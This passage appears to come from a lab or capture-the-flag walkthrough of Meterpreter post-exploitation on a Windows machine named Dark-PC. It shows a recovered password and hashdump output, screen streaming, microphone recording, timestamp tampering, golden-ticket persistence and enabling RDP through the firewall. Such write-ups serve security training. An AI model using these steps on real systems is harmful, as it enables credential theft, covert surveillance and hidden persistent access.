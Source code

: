 ```bash
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

# Post-Exploitation

Use `hashdump` command to dump all of the password hashes stored on the system.
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 
```
Use `screenshare` command to allow us to watch the remote user's desktop in real time
```bash
meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/kali/eZcsKSBO.html
[*] Streaming...
```
<img width="912" height="257" alt="image" src="https://github.com/user-attachments/assets/885bba41-0b80-4a15-a2f6-c4a74cd2b93b" />

- Use `record_mic` command if we want to record from a microphone attached to the system
- Use `timestomp` to modify the timestamps of files on the system
- Use `golden_ticket_create` of the Kiwi's commands allow us to create a golden ticket to maintain persistence and authenticate as any user on the domain.

One last thing to note. As we have the password for the user 'Dark', we can now authenticate to the machine and access it via remote desktop (MSRDP)
```bash
meterpreter > run post/windows/manage/enable_rdp
[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
meterpreter > 
```
